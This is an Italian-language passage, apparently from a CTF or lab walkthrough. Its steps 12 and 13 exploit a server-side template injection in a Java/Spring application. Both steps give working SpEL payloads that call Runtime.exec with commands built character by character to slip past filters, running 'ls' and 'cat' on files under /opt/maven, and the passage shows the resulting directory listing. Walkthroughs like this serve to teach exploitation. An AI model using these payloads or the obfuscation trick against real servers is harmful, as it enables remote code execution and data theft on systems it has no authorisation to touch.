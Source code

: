 12) Scopriamo che cosa c'è nella cartella /opt/maven/, ls /opt/maven/:
-  *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime()
-   .exec(T(java.lang.Character).toString(108)
-  .concat(T(java.lang.Character).toString(115))
-  .concat(T(java.lang.Character).toString(32))
-  .concat(T(java.lang.Character).toString(47))  --> /
-  .concat(T(java.lang.Character).toString(111))
-  .concat(T(java.lang.Character).toString(112))
-  .concat(T(java.lang.Character).toString(116))
-  .concat(T(java.lang.Character).toString(47))    --> /
-  .concat(T(java.lang.Character).toString(109))
-  .concat(T(java.lang.Character).toString(97))
- .concat(T(java.lang.Character).toString(118))
- .concat(T(java.lang.Character).toString(101))
- .concat(T(java.lang.Character).toString(110))
-   ).getInputStream())}

Troviamo ---> ## bin boot conf lib LICENSE NOTICE README.txt

13) Ora apriamo il file /opt/maven/README.txt, il comando è :  cat   /opt/maven/README.txt

-  *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime()
-   .exec(T(java.lang.Character).toString(99)
-  .concat(T(java.lang.Character).toString(97))
-  .concat(T(java.lang.Character).toString(116))
-  .concat(T(java.lang.Character).toString(32))
-  .concat(T(java.lang.Character).toString(47))  --> /
-  .concat(T(java.lang.Character).toString(111))
-  .concat(T(java.lang.Character).toString(112))
-  .concat(T(java.lang.Character).toString(116))
-  .concat(T(java.lang.Character).toString(47))    --> /
-  .concat(T(java.lang.Character).toString(109))
-  .concat(T(java.lang.Character).toString(97))
- .concat(T(java.lang.Character).toString(118))
- .concat(T(java.lang.Character).toString(101))
- .concat(T(java.lang.Character).toString(110))
- .concat(T(java.lang.Character).toString(47))
-  .concat(T(java.lang.Character).toString(82))
-  .concat(T(java.lang.Character).toString(69))
-  .concat(T(java.lang.Character).toString(65))
- .concat(T(java.lang.Character).toString(68))
- .concat(T(java.lang.Character).toString(77))
- .concat(T(java.lang.Character).toString(69))
- .concat(T(java.lang.Character).toString(46))
- .concat(T(java.lang.Character).toString(116))
- .concat(T(java.lang.Character).toString(120))
- .concat(T(java.lang.Character).toString(116))
-   ).getInputStream())}

